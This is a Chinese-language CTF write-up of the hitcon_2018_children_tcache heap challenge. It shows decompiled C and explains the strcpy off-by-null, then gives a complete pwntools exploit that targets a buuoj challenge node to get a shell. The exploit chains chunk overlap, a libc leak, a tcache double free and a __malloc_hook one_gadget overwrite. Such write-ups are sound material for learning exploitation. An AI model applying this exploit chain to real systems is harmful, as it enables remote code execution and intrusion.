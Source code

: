 # hitcon_2018_children_tcache

[题目地址](https://buuoj.cn/challenges#hitcon_2018_children_tcache)

这题加了个干扰项就把我看迷糊了。

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

全开，但毫无影响，毕竟你开不开我都做不出来堆题。

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  unsigned __int64 v3; // rax

  sub_AEB(a1, a2, a3);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      v3 = sub_B67();
      if ( v3 != 2 )
        break;
      show();
    }
    if ( v3 > 2 )
    {
      if ( v3 == 3 )
      {
        delete();
      }
      else
      {
        if ( v3 == 4 )
          _exit(0);
LABEL_13:
        puts("Invalid Choice");
      }
    }
    else
    {
      if ( v3 != 1 )
        goto LABEL_13;
      new();
    }
  }
}
```

就3个选项，一个一个看吧。

```c
unsigned __int64 new()
{
  int i; // [rsp+Ch] [rbp-2034h]
  char *dest; // [rsp+10h] [rbp-2030h]
  unsigned __int64 size; // [rsp+18h] [rbp-2028h]
  char s[8216]; // [rsp+20h] [rbp-2020h] BYREF
  unsigned __int64 v5; // [rsp+2038h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  memset(s, 0, 0x2010uLL);
  for ( i = 0; ; ++i )
  {
    if ( i > 9 )
    {
      puts(":(");
      return __readfsqword(0x28u) ^ v5;
    }
    if ( !heap[i] )
      break;
  }
  printf("Size:");
  size = sub_B67();
  if ( size > 0x2000 )
    exit(-2);
  dest = (char *)malloc(size);
  if ( !dest )
    exit(-1);
  printf("Data:");
  sub_BC8(s, (unsigned int)size);
  strcpy(dest, s);                              // off-by-null
  heap[i] = dest;
  qword_2020C0[i] = size;                       // size记录在堆块地址后4个字节，这题没啥用，也没有edit选项
  return __readfsqword(0x28u) ^ v5;
}
```

这个off-by-null我当时没看出来，查了[wp](https://blog.csdn.net/weixin_44145820/article/details/105433911)才知道，说是“读取内容的时候会把内容从缓冲区用strcpy复制到堆上，因此有一个null-byte-one漏洞”。又去查了一下，找到了另一篇[文章](https://lantern.cool/note-pwn-off-by-one/#%E7%A4%BA%E4%BE%8B2)。原因是strcpy 在复制字符串时会拷贝结束符 '\x00'，比如原字符串长8，strcpy会连着末尾的\x00一起拷贝到目标地址，也就是9个字符，off-by-null。

```c
int show()
{
  __int64 v0; // rax
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  printf("Index:");
  v2 = sub_B67();
  if ( v2 > 9 )
    exit(-3);
  v0 = heap[v2];
  if ( v0 )
    LODWORD(v0) = puts((const char *)heap[v2]);
  return v0;
}
```

show就很正常，根据输入的索引从heap数组取得heap地址，puts输出。

```c
int delete()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  printf("Index:");
  v1 = sub_B67();
  if ( v1 > 9 )
    exit(-3);
  if ( heap[v1] )
  {
    memset((void *)heap[v1], '\xDA', qword_2020C0[v1]);// 注意此处，会把free的空间全部用\xDA填满
    free((void *)heap[v1]);
    heap[v1] = 0LL;
    qword_2020C0[v1] = 0LL;
  }
  return puts(":)");
}
```

delete也很正常，无uaf,还有个坑点，后面再说。看刚才的wp没看懂，又去搜了[一篇](https://xz.aliyun.com/t/4102#toc-6)。总体思路是tcache double free，但是由于没有uaf，需要绕个大圈子，利用off by null实现chunk overlapping，使两个申请到的堆块都是同一个堆块，完成tcache double free。exp如下。

```python
from pwn import *
r = remote("node4.buuoj.cn", 28175)
context.log_level = 'debug'

def add(size, content):
	r.recvuntil("Your choice: ")
	r.sendline('1')
	r.recvuntil("Size:")
	r.sendline(str(size))
	r.recvuntil("Data:")
	r.send(content)

def delete(index):
	r.recvuntil("Your choice: ")
	r.sendline('3')
	r.recvuntil("Index:")
	r.sendline(str(index))

def show(index):
	r.recvuntil("Your choice: ")
	r.sendline('2')
	r.recvuntil("Index:")
	r.sendline(str(index))
add(0x500, 'a'*0x4ff) #chunk0需要unsorted bin范围
add(0x68, 'a'*0x67) #chunk1 tcache范围
add(0x5f0, 'a'*0x5ef) #chunk2也需要unsorted bin范围，且低八位需要为0（这里我觉得是chunk2的prev_size与chunk1的data区域重叠的意思，这种情况下chunk2的prev_size域会被用作chunk1的data域）
add(0x20, 'a'*0x20) #防止攻击时上述chunk与top chunk合并
delete(1)
delete(0) #free掉chunk1、0。注意free chunk1时，chunk1的data域全部被\xDA填满，下面就是要处理这一点

for i in range(9):
    add(0x68 - i, 'b' * (0x68 - i)) #每次add都会执行strcpy，溢出一个空字节。第一次溢出的空字节将chunk2的size域的第一字节覆盖为\x00，剩下的次数用于将chunk1被\xDA填满的data域恢复到\x00
    delete(0) #用完就扔，循环清理

add(0x68, b'b'*0x60+p64(0x580)) #这里申请到的chunk还在chunk1的位置，chunk2的上面。b'b'*0x60填充，p64(0x580)伪造chunk2的prev_size。0x580是chunk1+chunk0的大小，0x500+0x68=0x568，16字节对齐是0x500+0x70=0x570，还要再多16字节给chunk头。0x570+0x10=0x580
delete(2) #触发unlink，现在系统认为chunk0+chunk1+chunk2是一整个大chunk
add(0x508, 'a'*0x507) #申请一个chunk，这个chunk会从刚才的大chunk中切割出来，剩下的部分归入unsorted bin，fd就有了main_arena的相关地址。剩下堆块0x570-0x508=0x68

show(0) #fd对应着chunk0的data域，show(0)泄露地址
malloc_hook = u64(r.recvuntil('\x7f').ljust(8, b'\x00')) - 0x60 -0x10
libc_base = malloc_hook - 4111408
one_gadget = libc_base + 0x4f322

add(0x68,'b'*0x67) #此处申请到的堆块索引2，是刚才切割堆块剩下的部分，地址和0号堆块一样
delete(0)
delete(2) #这里free chunk0、2，其实free的是同一个地址，double free
add(0x68, p64(malloc_hook)) #改fd
add(0x68,'b'*0x67) #取出剩余堆块
add(0x68,p64(one_gadget)) #得到malloc_hook地址处堆块，写入one_gadget

r.recvuntil("Your choice: ")
r.sendline('1')
r.recvuntil("Size:")
r.sendline('10')
r.interactive()
```